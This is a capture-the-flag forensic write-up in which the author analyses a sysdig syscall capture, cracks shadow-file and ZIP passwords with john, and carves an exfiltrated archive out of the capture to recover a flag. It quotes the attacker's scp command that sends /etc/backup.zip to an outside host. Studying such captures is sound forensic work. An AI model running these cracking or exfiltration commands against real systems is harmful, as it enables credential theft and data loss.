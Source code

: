 ```yaml
---
title: Auvergn'Hack 2025 - StratoMonk
date: 2025-04-05
tags: 
- forensic
- pcap
- syscalls
category: 
- forensic
---
```



## Discovering the challenge
<br>

We have a ``.scap`` file which is the capture file format used by sysdig to record system events. 
So from wireshark, we can see the syscalls that have been made on a system. 

## Objective of the challenge
<br>
```
Flag format : ZiTF{User:Password_Data} Example:

    User: king
    Password: kong
    Data: SensitiveDatas
    Flag: ZiTF{king:kong_SensitiveDatas}
```
From this file, we need to be able to retrieve three pieces of information: the user used to exfiltrate the data, his password, and the contents of the stolen file. 
<br>

To do this, we're going to use an advanced ctfer technique: ``strings``.

## Step 1: Find the user 

The ``strings`` command allows us to retrieve many things, starting with the /etc/passwd and /etc/shadow files, which already gives us some clues. 
By listing the sshd connections, we can see that one user is particularly active: ``dark_monkey``.

## Step 2: Find the password

As we have access to /etc/passwd and /etc/shadow, we can use john to crack passwords.
To do this, we do : 
```
› unshadow passwd shadow > hashes
› john --format=crypt hashes
```

The problem is that our wordlist is probably unsuitable for our context. What we can do, however, is extract the strings from the .scap file, and give it as a wordlist to john, hoping that the user's password is inside the capture. 

```
› strings stratomonk2.scap > strings.txt
› john --format=crypt hashes --wordlist=strings.txt
```

After a while, we get a result: 
```
...
m0NK3y!          (dark_monkey)
...
```

Great, now all we need is the stolen file.

## Searching for the lost file

In all this blob of strings, one command stands out : 
```
› strings stratomonk2.scap | rg scp
scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
```

The attacker has used scp to exfiltrate the /etc/backup.zip file. 

Using wireshark, we will try to extract the file. To do this, we'll look for the magic bytes in the ZIP file: ``PK``. 
We have a match:
```
52208	37.353869510			Sysdig Event	310	read

System Event 52208: 310 bytes
Sysdig Event
    CPU ID: 1
    Thread ID: 10495
    Event length: 310
    Number of parameters: 4
    Event type: read (7)
        Parameter lengths: 0800000108000400
        res: 256
        data […]: 504b030414000900630012ad5b5a00000000000000001000000005002b006e6f74657355540d0007c4cdc067c4cdc067c4cdc06775780b000104e803000004e803000001990700020041450308003601e9cb70ca0a6fd094fdc941620240d572782453e30372b549fa42f91087d776216dc
    Event name: read
```
Now we're going to take all the ```read``` syscalls that are linked to our thread id once we've found the magic bytes.
Then we copy each data field to a file, and we get : 
```
› file download.zip 
download.zip: Zip archive data, at least v2.0 to extract, compression method=AES Encrypted
```
We've got a zip file, but it's got a password, so we'll have to do some more monkey tests before we can crack it.

### Bruteforce password zip
The fastest monkey test is to use ```john``` with ```rockyou```.
> All these tools are available in exegol by default, _la classe!_ 

After a while we get a result: 
```
[Apr 05, 2025 - 18:22:39 (CEST)] exegol-leonardo /workspace # zip2john download.zip > zipped 
[Apr 05, 2025 - 18:22:58 (CEST)] exegol-leonardo /workspace # john --format=zip zipped                       
...
gangster         (download.zip/notes)     
...
```

## Final

We can now open our file and complete the flag :)
```
› 7z x download.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:20 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 3342 bytes (4 KiB)

Extracting archive: download.zip

WARNINGS:
There are data after the end of archive

--
Path = download.zip
Type = zip
WARNINGS:
There are data after the end of archive
Physical Size = 256
Tail Size = 3086

    
Enter password:gangster

Everything is Ok

Archives with Warnings: 1

Warnings: 1
Size:       16
Compressed: 3342
```

```
› cat notes            
s3CR3t_N0t3s:=)


Flag=ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```
